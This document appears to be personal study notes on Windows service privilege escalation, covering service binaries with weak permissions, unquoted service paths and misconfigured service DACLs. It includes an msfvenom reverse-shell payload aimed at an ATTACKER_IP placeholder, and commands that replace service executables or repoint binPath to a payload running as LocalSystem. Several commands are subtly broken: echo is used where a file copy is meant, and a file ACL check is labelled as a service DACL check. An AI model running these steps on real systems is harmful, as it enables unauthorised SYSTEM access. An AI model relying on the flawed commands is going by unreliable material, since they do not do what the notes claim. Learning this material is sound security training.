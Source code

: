 Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

#### **<mark style="background: #FF5582A6;">Windows Services</mark>:**

- **<mark style="background: #BBFABBA6;">Service Control Manager (SCM</mark>):** Manages services, their states, and configurations on Windows.
- **<mark style="background: #BBFABBA6;">Service Structure</mark>:**
  - Associated executable run by SCM.
  - Executables must implement special functions to interact with SCM.
  - Specifies user account under which the service runs.

```powershell
# Example: Check service configuration
sc qc [ServiceName]

# Example: Check service registry configuration
reg query HKLM\SYSTEM\CurrentControlSet\Services\[ServiceName]
```

- **<mark style="background: #FF5582A6;">Discretionary Access Control List (DACL)</mark>:**
  - Defines permissions (start, stop, etc.) for services.
  - Located in Registry under `Security` subkey.

```powershell
# Example: Check DACL for a service
icacls C:\Path\To\Service\Executable
```

- **<mark style="background: #FF5582A6;">Insecure Permissions on Service Executable</mark>:**
  - Exploitable if executable has weak permissions.
  - Example using `icacls` to check and overwrite executable.

```powershell
# Example: Check and modify permissions on service executable
icacls C:\Path\To\Service\Executable
echo C:\Path\To\Payload.exe > C:\Path\To\Service\Executable
```

- **<mark style="background: #FF5582A6;">Exploitation</mark>:**
  - Generate payload with `msfvenom`.
  - Replace service executable.
  - Restart service to execute payload.

```bash
# Example: Generate payload with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

# Example: Move payload to service executable location
move C:\Path\To\Payload.exe C:\Path\To\Service\Executable

# Example: Restart service
sc stop [ServiceName]
sc start [ServiceName]
```

#### **<mark style="background: #FF5582A6;">Unquoted Service Paths</mark>:**

- **<mark style="background: #FF5582A6;">Behavioral Quirks</mark>:**
  - Unquoted paths lead to ambiguous command interpretation.
  - SCM searches for binaries in specific order.
  
```powershell
# Example: Check service configuration for quoted paths
sc qc "ServiceName"
```

- **<mark style="background: #FF5582A6;">Exploitation</mark>:**
  - Exploit writable directories or misconfigured permissions.
  - Example: Create executable in a writable directory.
  - Move executable to trigger service execution.

```powershell
# Example: Create executable in writable directory
echo C:\Path\To\Payload.exe > C:\Writable\Directory\Executable.exe

# Example: Move executable to trigger service execution
move C:\Writable\Directory\Executable.exe "C:\Program Files\Service\Executable.exe"
```

#### **<mark style="background: #FF5582A6;">Insecure Service Permissions</mark>:**

- **<mark style="background: #FF5582A6;">Service DACL Exploration</mark>:**
  - Check DACL with tools like <mark style="background: #D2B3FFA6;">Accesschk</mark>.
  
```powershell
# Example: Check DACL for a service
C:\Tools\AccessChk\accesschk64.exe -qlc [ServiceName]
```

- **<mark style="background: #FF5582A6;">Exploitation</mark>:**
  - Modify service configuration.
  - Granting Everyone full access allows manipulation.
  - Example: Change service executable and restart to gain SYSTEM privileges.

```powershell
# Example: Modify service configuration to use a different executable
sc config [ServiceName] binPath= "C:\Path\To\Payload.exe" obj= LocalSystem

# Grating full permission
icacls C:\Path\To\Payload /grant Everyone:F

# Example: Restart service
sc stop [ServiceName]
sc start [ServiceName]
```

**<mark style="background: #FF5582A6;">Note</mark>:**
- Each vector targets service-related vulnerabilities for privilege escalation.
- Understand service configurations, DACL, and executable paths.
- Exploitation often involves payload generation, directory manipulation, and service restarts.